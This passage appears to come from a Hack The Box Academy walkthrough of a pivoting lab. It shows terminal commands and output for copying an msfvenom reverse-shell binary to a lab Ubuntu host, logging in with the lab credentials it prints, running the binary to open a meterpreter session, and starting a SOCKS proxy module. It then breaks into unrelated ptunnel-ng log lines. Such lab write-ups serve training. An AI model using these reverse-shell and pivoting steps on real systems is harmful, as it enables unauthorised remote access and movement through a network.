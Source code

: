 ```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ scp reverseShell ubuntu@10.129.104.197:~/

ubuntu@10.129.104.197's password: 
reverseShell
```

Students then need to connect to the Ubuntu pivot host using SSH, utilizing the credentials `ubuntu:HTB_@cademy_stdnt!`:

Code: shell

```shell
ssh ubuntu@STMIP
```

```
┌─[us-academy-1]─[10.10.14.7]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh ubuntu@10.129.104.197

ubuntu@10.129.104.197's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

<SNIP>

Last login: Thu May 12 17:27:41 2022
ubuntu@WEB01:~$
```

Once successfully connected to the pivot host, students need to make the `msfvenom` payload executable and then run it:

Code: shell

```shell
chmod +x reverseShell
./reverseShell
```

```
ubuntu@WEB01:~$ chmod +x reverseShell 
ubuntu@WEB01:~$ ./reverseShell 
```

Students will notice that a new `meterpreter` session has opened on their `multi/handler` listener module:

![[HTB Solutions/CPTS/z. images/54ebf4d761da5a062fa8cd0c09a3fc24_MD5.jpg]]

Afterward, students need to background the `meterpreter` session and configure the `auxiliary/server/socks_proxy` module:

Code: shell

```shell
bg
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set VERSION 4a
run
```


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.